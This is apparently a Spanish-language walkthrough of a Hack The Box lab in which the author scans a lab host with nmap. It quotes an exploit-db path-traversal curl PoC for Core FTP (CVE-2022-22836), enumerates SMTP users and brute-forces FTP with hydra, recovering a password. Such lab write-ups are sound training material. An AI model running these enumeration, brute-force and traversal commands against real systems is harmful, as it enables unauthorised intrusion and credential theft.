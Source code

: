 La empresa Inlanefreight nos encargó realizar una prueba de penetración en tres hosts diferentes para comprobar la configuración y la seguridad de los servidores. Nos informaron de que se había colocado una bandera en cada servidor para demostrar el acceso exitoso. Estas banderas tienen el siguiente formato:

HTB{...}
Nuestra tarea consiste en revisar la seguridad de cada uno de los tres servidores y presentársela al cliente. Según nuestra información, el primer servidor gestiona correos electrónicos, clientes y sus archivos.

---
**Target: 10.129.203.7:**
**1. You are targeting the inlanefreight.htb domain. Assess the target server and obtain the contents of the flag.txt file. Submit it as the answer.**

Con un escaneo básico observo:
```
nmap -sCV -open --min-rate 200 -Pn -n 10.129.203.7
```

Respuesta: 
```
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
25/tcp   open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          syn-ack ttl 127 Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-methods: 
|_  Supported Methods: POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.203.7/dashboard/
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
443/tcp  open  https?        syn-ack ttl 127
| ssl-cert: Subject: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US/organizationalUnitName=Test/localityName=test/emailAddress=fiona@inlanefreight.htb
| Issuer: commonName=Test/organizationName=Testing/stateOrProvinceName=FL/countryName=US/organizationalUnitName=Test/localityName=test/emailAddress=fiona@inlanefreight.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: shaWithRSAEncryption
| Not valid before: 2022-04-21T19:27:17
| Not valid after:  2032-04-18T19:27:17
| MD5:   27ed:2da8:8b25:57e3:d2fc:c0c8:9f0b:55b0
| SHA-1: 5018:d8d5:ba6b:5a1c:8df6:5969:45d7:fe06:3d32:7fad
| -----BEGIN CERTIFICATE-----
| MIIDcDCCAlwCAQAwCQYFKw4DAg8FADCBgTELMAkGA1UEBhMCVVMxCzAJBgNVBAgM
| AkZMMQ0wCwYDVQQHDAR0ZXN0MQ0wCwYDVQQLDARUZXN0MRAwDgYDVQQKDAdUZXN0... ...
| KuXOTzuf6pjUC5EMkncqdec8o4cVO1t4WJCs0iMaKH6tCB3oY80cYK0Z1PzQzYjz
| W5IEUFA9sdz67h79xdQcQHPHZmM=
|_-----END CERTIFICATE-----
587/tcp  open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3306/tcp open  mysql         syn-ack ttl 127 MySQL 5.5.5-10.4.24-MariaDB
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, ConnectWithDatabase, Support41Auth, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, InteractiveClient, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsTransactions, ODBCClient, FoundRows, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: >VvpOz:Pc"yaZ!3z2(nu
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-EASY
| Issuer: commonName=WIN-EASY
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-19T15:08:51
| Not valid after:  2026-04-20T15:08:51
| MD5:   adc5:8654:024a:9d64:7fb8:2659:7bbf:65ea
| SHA-1: ee00:1f7d:d9f1:fdd1:f546:0126:de73:d23b:7f5c:c9e2
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQVXGl++AEVbxN0u6qKCWrEzANBgkqhkiG9w0BAQsFADAT... ....
| gv2ZsJ4gaQH8dOfEjKThQtnaTV0AG7Srq/KgtSUqw3dFPnwN0joXdX5HEGqMVoi9
| wKLnSLwaX0k=
|_-----END CERTIFICATE-----
|_ssl-date: 2025-10-20T15:12:47+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WIN-EASY
|   NetBIOS_Domain_Name: WIN-EASY
|   NetBIOS_Computer_Name: WIN-EASY
|   DNS_Domain_Name: WIN-EASY
|   DNS_Computer_Name: WIN-EASY
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-20T15:12:38+00:00
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/20%Time=68F65135%P=x86_64-pc-linux-gnu%r( ... ....
SF:CC\r\n\x20\x20\x20\x20\x20XCRC\x20\x20SIZE\x20\x20MFMT\x20\x20CLNT\x20\
SF:x20ABORT\r\n214\x20\x20HELP\x20command\x20successful\r\n");
Service Info: Host: WIN-EASY; OS: Windows; CPE: cpe:/o:microsoft:windows


```

Empezamos por:
```
21/tcp   open  ftp           syn-ack ttl 127
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
```

Buscando en google: 
>ftp FTP Server Version 2.0, build 725, 64-bit Unregistered exploit

Me encuentro que le afecta la siguiente vulnerabilidad: "CVE 2022-22836"
https://www.exploit-db.com/exploits/50652

Podría ejecutar según dicha página web:
```txt
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

Pero nunca encuentro unas credenciales válidas para iniciar dicho ataque.

Probaré con el siguiente servicio: SMTP:
```
25/tcp   open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
```

Añado al /etc/hosts:
```
10.129.203.7 inlanefreight.htb
```

Y ejecutando:
```
smtp-user-enum -M RCPT -U userlist.list -D inlanefreight.htb -t 10.129.203.7
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... userlist.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Mon Oct 20 10:34:36 2025 #########
10.129.203.7: fiona@inlanefreight.htb exists
######## Scan completed at Mon Oct 20 10:34:37 2025 #########
1 results.

79 queries in 1 seconds (79.0 queries / sec)

```

Encuentro que "fiona" es un usuario válido.

Realizo un ataque de fuerza bruta con tal usuario pero no me da resultado ni con "rockyou" ni con el recurso "passwords.list" que ofrece HTB:
```

hydra -l "fiona@inlanefreight.htb" -P /usr/share/wordlists/rockyou.txt.gz -f inlanefreight.htb pop3
hydra -l "fiona@inlanefreight.htb" -P passwords.list -f inlanefreight.htb pop3

```

Pruebo la credencial "fiona" por FTP con el diccionario "rockyou" y me devuelve:
```
hydra -l "fiona" -P /usr/share/wordlists/rockyou.txt ftp://10.129.172.173
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-20 10:51:16
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.129.172.173:21/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 14344339 to do in 2988:25h, 1 active
[21][ftp] host: 10.129.172.173   login: fiona   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-20 10:52:28

```